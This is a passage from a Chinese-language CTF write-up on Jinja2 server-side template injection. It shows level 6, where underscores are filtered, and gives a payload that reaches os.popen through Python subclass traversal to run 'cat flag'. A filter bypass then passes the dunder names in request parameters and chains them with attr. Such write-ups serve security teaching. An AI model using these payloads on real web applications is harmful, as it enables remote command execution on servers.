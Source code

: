 [![在这里插入图片描述](assets/1698900310-83105e28ce97e8d25e69fc3f3356423e.png)](https://storage.tttang.com/media/attachment/2022/08/14/913853b9-70ba-464d-92e6-402fb8321955.png)  
当然，也可以利用`request.cookie.a`这种，两者实质是相同的，不再演示

### [level 6](#toc_level-6)

[![在这里插入图片描述](assets/1698900310-ffa487ebcae10a3fb85352abb4c249d2.png)](https://storage.tttang.com/media/attachment/2022/08/14/fc18471c-8921-4edc-b6d2-a6c009bf1ca9.png)  
题目描述，过滤了下划线  
依旧可以同上关一样，借助 request 实现，我们这里换一个语句

```bash
{{().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

构造出来的 payload

```bash
GET:cla=__class__&bas=__base__&sub=__subclasses__&ini=__init__&glo=__globals__&gei=__getitem__
POST:code={{()|attr(request.args.cla)|attr(request.args.bas)|attr(request.args.sub)()|attr(request.args.gei)(133)|attr(request.args.ini)|attr(request.args.glo)|attr(request.args.gei)('popen')('cat flag')|attr('read')()}}
```
